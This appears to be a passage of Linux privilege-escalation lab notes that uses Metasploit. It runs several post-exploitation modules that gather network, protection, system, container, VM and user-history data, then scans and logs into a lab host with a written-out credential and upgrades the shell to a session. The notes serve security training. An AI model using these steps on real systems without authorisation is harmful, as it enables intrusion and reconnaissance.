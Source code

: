 ```bash
msf6> use post/linux/gather/enum_network
msf6> set session 2
msf6> run
```

```bash
msf6> use post/linux/gather/enum_protections
msf6> set session 2
msf6> run
```

```bash
msf6> use post/linux/gather/enum_system
msf6> set session 2
msf6> run
```

```bash
msf6> use post/linux/gather/checkcontainer
msf6> set session 2
msf6> run
```

```bash
msf6> use post/linux/gather/checkvm
msf6> set session 2
msf6> run
```

```bash
msf6> use post/linux/gather/enum_users_history
msf6> set session 2
msf6> run
```

#### Exploit a vulnerable program

* The privilege techniques we can utilize will depend on the version of the Linux kernel running on the target system as well as the distribution release version.
* MSF offers very little in regards to Linux kernel exploit modules, however, in some cases, there may be an exploit module that can be utilized to exploit a vulnerable service or program in order to elevate our privileges.

```bash
kali@kali> service postgresql start && msfconsole

msf6> db_nmap -sV 192.167.22.3
msf6> 
msf6> ssh jackie@192.167.22.3  # jackie:password

/bin/bash -i
jackie@victim-1> id
# CTRL+Z

msf6> sessions -u 1
msf6> sessions 2

/bin/bash
jackie@victim-1> ps aux
jackie@victim-1> cat /bin/check-down
# CTRL+Z
```
